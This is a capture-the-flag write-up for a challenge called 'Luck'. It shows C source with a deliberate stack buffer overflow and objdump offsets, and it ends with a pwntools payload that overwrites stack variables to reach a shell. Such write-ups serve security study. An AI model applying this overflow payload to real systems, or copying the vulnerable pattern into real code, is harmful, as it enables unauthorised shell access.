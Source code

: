 # Luck

Again, we being by looking at the `luck.c` file

  ```C
  
    int a = 0 , b = 1 , c = 2;
    int password = random();

    puts( "What do you want to tell me:" );
    read( 0 , &a , 100 );
    
    printf("You say: %s\n" , &a);

    if( b == 0xfaceb00c && c == 0xdeadbeef ){
        puts( "Hello hacker, now guess the password." );
        puts( "A good hacker always 100% guess right :P, are you a good hacker?" );
        printf( "password:" );

        int input;
        scanf( "%d" , &input );

        if( input == password ){
            puts( "Here is your shell!" );
            system( "sh" );
        }
        else{
            puts( "Bad Luck :(" );
            exit(0);
        }
    }    
   ```
   
This is another simple BOF question. We can see the overflow point starts from `read( 0 , &a , 100 )`.

What we need to to is to overwrite b, c, and password so that we can access to `system( "sh" )`

Let's start with our `objdump -d luck`

    400869:	c7 45 e8 00 00 00 00 	movl   $0x0,-0x18(%rbp)
    400870:	c7 45 f4 01 00 00 00 	movl   $0x1,-0xc(%rbp)
    400877:	c7 45 f8 02 00 00 00 	movl   $0x2,-0x8(%rbp)
    40087e:	e8 6d fe ff ff       	callq  4006f0 <random@plt>
    400883:	89 45 fc             	mov    %eax,-0x4(%rbp)

We can see that a is stored in `rbp - 0x18`, b is stored in `rbp - 0xc`, c is stored in `rbp - 0x8`, and password is stored in `rbp - 0x4`

So, the gap between a, b is 12 bytes (0xc), between b, c is 4 bytes (0x4), and between c, password is 4 bytes (0x4).

Therefore, our padding will need 12 bytes (0xc). b will be replaced with `0xfaceb00c`, c will be replaced with `0xdeadbeef`, and password replaced with can be anything we know.

<b>Note: Remember to send `0xfaceb00c` and `0xdeadbeef`, not string</b>

In the end, our payload will be:
  
```Python
p.sendline(p32(0x11111111) + p32(0x11111111) + p32(0x11111111) +  p32(0xfaceb00c) + p32(0xdeadbeef) + p32(0x00000001))
```
